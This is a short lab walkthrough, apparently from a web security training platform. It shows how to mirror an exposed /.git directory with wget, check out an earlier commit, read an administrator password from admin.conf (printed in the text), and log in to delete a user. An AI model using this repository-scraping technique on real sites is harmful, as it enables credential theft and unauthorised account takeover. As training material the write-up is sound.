








# Lab: Information disclosure in version control history

> Lab Objective: obtain the password for the administrator user then log in and delete the user carlos.

- Try to access `/.git`, and you're able to access it normally.
  

- Therefore, download the `.git` file using the following command:

```
wget -r YOUR_LAB_ID/.git
```



- To see the differences use the following command:

```
git diff
```



- Firstly, see the commits log using `git log`.
  

- Secondly take the hash of the first commit then switch to this commit using `git checkout c5a37a546518db4e3d66e1dbd564ff10050dff31`
  

- Then run `ls -la` to see existing files and directories
  

- Finally, `cat admin.conf`, and you'll be able to retrieve the admin password.
  

- Login as an Admin using the following credentials `administrator:oflhfggag06ju42whvk7`
  

- Access the admin panel and delete the user carlos, and the lab is solved.
  

---
